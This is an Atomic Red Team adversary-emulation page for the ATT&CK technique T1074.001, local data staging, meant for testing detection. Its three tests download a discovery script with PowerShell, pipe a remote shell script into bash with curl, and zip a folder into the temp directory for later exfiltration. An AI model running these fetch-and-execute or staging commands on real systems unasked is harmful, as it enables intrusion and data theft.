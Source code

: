 # T1074.001 - Local Data Staging
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1074/001)
<blockquote>Adversaries may stage collected data in a central location or directory on the local system prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Archive Collected Data](https://attack.mitre.org/techniques/T1560). Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file. This emulates an attacker downloading data collection tools onto the host. Upon execution,
verify that the file is saved in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 107706a5-6f9f-451a-adae-bab8c667829f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | $env:TEMP&#92;discovery.bat|


#### Attack Commands: Run with `powershell`! 


```powershell
Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.bat" -OutFile #{output_file}
```

#### Cleanup Commands:
```powershell
Remove-Item -Force #{output_file} -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


**auto_generated_guid:** 39ce0303-ae16-4b9e-bb5b-4f53e8262066





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save downloaded discovery.bat file | Path | /tmp/T1074.001_discovery.log|


#### Attack Commands: Run with `bash`! 


```bash
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074.001/src/Discovery.sh | bash -s > #{output_file}
```






<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration. Upon execution, Verify that a zipped folder named Folder_to_zip.zip
was placed in the temp directory.

**Supported Platforms:** Windows


**auto_generated_guid:** a57fbe4b-3440-452a-88a7-943531ac872a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| output_file | Location to save zipped file or folder | Path | $env:TEMP&#92;Folder_to_zip.zip|
| input_file | Location of file or folder to zip | Path | PathToAtomicsFolder&#92;T1074.001&#92;bin&#92;Folder_to_zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Compress-Archive -Path #{input_file} -DestinationPath #{output_file} -Force
```

#### Cleanup Commands:
```powershell
Remove-Item -Path #{output_file} -ErrorAction Ignore
```





<br/>

